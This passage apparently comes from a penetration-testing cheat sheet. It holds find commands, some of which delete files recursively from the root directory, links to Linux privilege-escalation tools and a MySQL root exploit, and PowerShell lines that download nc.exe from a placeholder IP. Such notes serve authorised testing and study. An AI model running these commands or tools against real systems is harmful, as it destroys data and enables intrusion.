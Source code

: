 ```sh
find / -size +50M -size -100M
```

Find and Delete 100MB Files:

```sh
find / -type f -size +100M -exec rm -f {} \;
```

Find Specific Files and Delete:

```sh
find / -type f -name *.mp3 -size +10M -exec rm {} \;
```

Find all emtpy files:

```sh
find /tmp -type f -empty
```

Find all empty directories:

```sh
find /tmp -type d -empty
```

Find all hidden files:

```sh
find /tmp -type f -name ".*"
```

#### Automation

* [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2)
* [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
* [LinEnum](https://github.com/rebootuser/LinEnum)
* MySQL running as root? [`raptor_udf2.c`](https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c)
* [Monitor linux processes without root permissions](https://github.com/DominicBreuker/pspy)

If you are on a modern ubuntu, there is a Privesc vector through the USB creator
program: [https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

### Send files to remote hosts

#### Powershell

```powershell
Invoke-Webrequest -Uri <IP> -OutFile <DestFile>

# Win 7
(New-Object System.Net.WebClient).DownloadFile("http://<IP>/nc.exe", "c:\nc.exe")

# Win 8 and later
wget "http://<IP>/nc.exe" -outfile "c:\nc.exe"
```
